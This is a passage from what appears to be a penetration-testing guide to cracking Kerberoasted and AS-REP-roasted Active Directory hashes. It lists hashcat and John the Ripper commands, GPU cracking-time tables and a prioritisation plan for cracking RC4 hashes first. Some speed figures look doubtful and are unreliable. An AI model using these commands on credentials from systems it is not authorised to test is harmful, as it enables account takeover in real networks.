 ```bash
# Resume
hashcat -m 13100 tgs_hashes.txt wordlist.txt --session=kerb1 --restore
```

**ASREPRoasting** (mode 18200):
```bash
# Basic
hashcat -m 18200 asrep_hashes.txt /path/to/wordlist.txt

# With rules
hashcat -m 18200 asrep_hashes.txt wordlist.txt -r /path/to/best64.rule

# Brute force
hashcat -m 18200 asrep_hashes.txt -a 3 ?u?l?l?l?l?d?d?d?d
```

### 3. **John the Ripper Commands (Alternative)**
```bash
# Kerberoasting
john --format=krb5tgs tgs_hashes.txt --wordlist=/path/to/wordlist.txt
john --format=krb5tgs tgs_hashes.txt --wordlist=wordlist.txt --rules=Jumbo
john --format=krb5tgs tgs_hashes.txt --show

# ASREPRoasting
john --format=krb5asrep asrep_hashes.txt --wordlist=/path/to/wordlist.txt
john --format=krb5asrep asrep_hashes.txt --show
```

### 4. **Cracking Time Estimates**
Realistic estimates per GPU type:

**RC4-HMAC Hashes (Fast)**:
| Attack Type | RTX 3090 | RTX 4090 | GTX 1080 |
|-------------|----------|----------|----------|
| rockyou.txt | ~5 sec | ~3 sec | ~20 sec |
| Brute force 8 chars | ~2 hours | ~1 hour | ~8 hours |

**AES Hashes (Slower)**:
| Attack Type | RTX 3090 | RTX 4090 | GTX 1080 |
|-------------|----------|----------|----------|
| rockyou.txt | ~30 sec | ~20 sec | ~2 min |
| Brute force 8 chars | ~12 hours | ~8 hours | ~48 hours |

**Key Insight**: RC4 is 6-10x faster to crack than AES

### 5. **Operational Recommendations**
Prioritization strategy:

**If RC4 hashes detected**:
1. Crack RC4 hashes first (much faster)
2. Start with rockyou.txt + best64.rule
3. If no success, try larger wordlists
4. Last resort: brute force short passwords
